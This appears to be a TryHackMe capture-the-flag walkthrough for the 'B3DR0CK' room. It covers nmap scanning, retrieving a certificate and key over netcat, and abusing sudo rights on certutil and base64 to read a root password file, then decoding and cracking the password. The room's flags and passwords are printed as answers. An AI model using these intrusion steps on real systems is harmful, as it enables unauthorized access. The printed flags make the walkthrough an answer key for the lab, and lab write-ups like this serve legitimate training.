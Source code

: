 B3DR0CK

$IP 10.10.159.2

scan IP by suing NMAP

nmap -sCV -vv $IP -oN nmap.txt

22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
9009/tcp open  pichat? syn-ack ttl 63
Discovered open port 54321/tcp on 10.10.159.2
Discovered open port 4040/tcp on 10.10.159.2




let hit 10.10.159.2 on web browser 
it redirect to the https://10.10.159.2:4040

wich contain

Welcome to ABC!

Abbadabba Broadcasting Compandy

We're in the process of building a website! Can you believe this technology exists in bedrock?!?

Barney is helping to setup the server, and he said this info was important...

Hey, it's Barney. I only figured out nginx so far, what the h3ll is a database?!?
Bamm Bamm tried to setup a sql database, but I don't see it running.
Looks like it started something else, but I'm not sure how to turn it off...

He said it was from the toilet and OVER 9000!

Need to try and secure connections with certificates...

let find the certificate on 9009 port 


sudo nc -v 10.10.159.2 9009
 search ssh key and certificate 

 save bothe file and use in 54321 to gain access 

use openssl

openssl s_clint -connect $IP -cert certificate -key key


i found the password hint 
d1ad7c0a3805955a35eb260dab4180dd for Barney Rubble





What is the barney.txt flag? 

THM{f05780f08f0eb1de65023069d0e4c90c}


What is fred's password?
 
 let jump into find the fred certificate and the key
 	sudo -l
 			User barney may run the following commands on b3dr0ck:
    (ALL : ALL) /usr/bin/certutil

 sudo /usr/bin/certutil ls

Current Cert List: (/usr/share/abc/certs)
------------------
total 56
drwxrwxr-x 2 root root 4096 Apr 30 21:54 .
drwxrwxr-x 8 root root 4096 Apr 29 04:30 ..
-rw-r----- 1 root root  972 Sep  5 23:19 barney.certificate.pem
-rw-r----- 1 root root 1678 Sep  5 23:19 barney.clientKey.pem
-rw-r----- 1 root root  894 Sep  5 23:19 barney.csr.pem
-rw-r----- 1 root root 1674 Sep  5 23:19 barney.serviceKey.pem
-rw-r----- 1 root root  976 Sep  5 23:19 fred.certificate.pem
-rw-r----- 1 root root 1674 Sep  5 23:19 fred.clientKey.pem
-rw-r----- 1 root root  898 Sep  5 23:19 fred.csr.pem
-rw-r----- 1 root root 1674 Sep  5 23:19 fred.serviceKey.pem

sace the fret certificate.pem in tow file 

and sun openssl to see password hint 

Password hint: YabbaDabbaD0000! (user = 'fredcertificatepem')





What is the fred.txt flag?

THM{08da34e619da839b154521da7323559d}

What is the root.txt flag?

sudo -l
Matching Defaults entries for fred on b3dr0ck:
    insults, env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User fred may run the following commands on b3dr0ck:
    (ALL : ALL) NOPASSWD: /usr/bin/base32 /root/pass.txt
    (ALL : ALL) NOPASSWD: /usr/bin/base64 /root/pass.txt

 sudo /usr/bin/base64 /root/pass.txt

TEZLRUM1MlpLUkNYU1dLWElaVlU0M0tKR05NWFVSSlNMRldWUzUyT1BKQVhVVExOSkpWVTJSQ1dOQkdYVVJUTEpaS0ZTU1lLCg==


echo "TEZLRUM1MlpLUkNYU1dLWElaVlU0M0tKR05NWFVSSlNMRldWUzUyT1BKQVhVVExOSkpWVTJSQ1dOQkdYVVJUTEpaS0ZTU1lLCg==" | base64 -d                    
LFKEC52ZKRCXSWKXIZVU43KJGNMXURJSLFWVS52OPJAXUTLNJJVU2RCWNBGXURTLJZKFSSYK

decode with base32

YTAwYTEyYWFkNmI3YzE2YmYwNzAzMmJkMDVhMzFkNTYK


decode with base64

a00a12aad6b7c16bf07032bd05a31d56


its MD5 hase now decode by using online tools

flintstonesvitamins

lets use this password on root command 

cat /root/root.txt

THM{de4043c009214b56279982bf10a661b7}

